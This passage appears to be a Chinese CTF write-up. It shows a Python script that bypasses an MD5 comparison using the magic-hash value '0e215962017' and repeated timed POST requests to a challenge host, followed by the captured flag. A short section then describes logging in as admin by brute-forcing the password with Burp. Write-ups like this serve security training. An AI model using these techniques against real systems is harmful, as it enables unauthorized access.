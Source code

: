 前面的MD5绕过网上找找就过了，后面要传两个当前时间开头的字符串，手动传肯定不行，想着写脚本，通过比当前时间多一秒并一直发送请求直至时间刚好重合即可，exp如下：

```python
import requests
import time

url = 'http://43.248.97.200:40038/'

timestamp = int(time.time()) + 1
data = {'a1': 1, 'b1': 2, 'key': '0e215962017', 'a2': str(timestamp) + '111', 'b2': timestamp}

while True:
    res = requests.post(url, data)
    print(res.text)
```

FLAG：flag{y0v|nDeedReA11yk$nwAb0uTMD5!~ _ ~^_^}



## reallyExpensive

注册的时候想用admin当用户名，发现用户已存在，想着能不能用admin作为用户名登录，然后用burp爆破出密码是admin

![1](./image/6.png)
